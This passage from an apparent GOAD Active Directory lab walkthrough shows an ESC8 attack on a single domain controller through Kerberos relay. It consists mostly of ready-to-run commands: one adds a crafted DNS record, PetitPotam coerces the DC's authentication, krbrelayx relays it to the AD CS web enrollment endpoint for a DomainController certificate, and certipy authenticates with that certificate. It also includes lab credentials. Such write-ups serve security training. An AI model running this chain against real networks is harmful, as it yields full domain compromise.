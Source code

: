 ## Bonus - ESC8 on kingslanding with kerberos relay
- In sevenkingdoms.local only one DC is available in the domain and the adcs service is also running on this DC.
- So in order to exploit this machine, we will have to **coerce the machine to itself**.
- This can be done with kerberos relay !

```bash
# Add dns entry with the james forshaw's trick
dnstool.py -u "sevenkingdoms.local\jaime.lannister" -p "cersei" -r "kingslanding1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" -d "192.168.56.1" --action add "192.168.56.10" --tcp

# Coerce kerberos with petit potam on dns entry
petitpotam.py -u 'jaime.lannister' -p 'cersei' -d sevenkingdoms.local 'kingslanding1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' kingslanding.sevenkingdoms.local

# relay kerberos
python3 krbrelayx.py -t 'http://kingslanding.sevenkingdoms.local/certsrv/certfnsh.asp' --adcs --template DomainController -v 'KINGSLANDING$' -ip 192.168.56.1
```

![part14_esc8_kerberos.png](/assets/blog/GOAD/part14_esc8_kerberos.png)

and finish it

```bash
certipy auth -pfx 'KINGSLANDING$.pfx' -domain "sevenkingdoms.local" -dc-ip 192.168.56.10
```
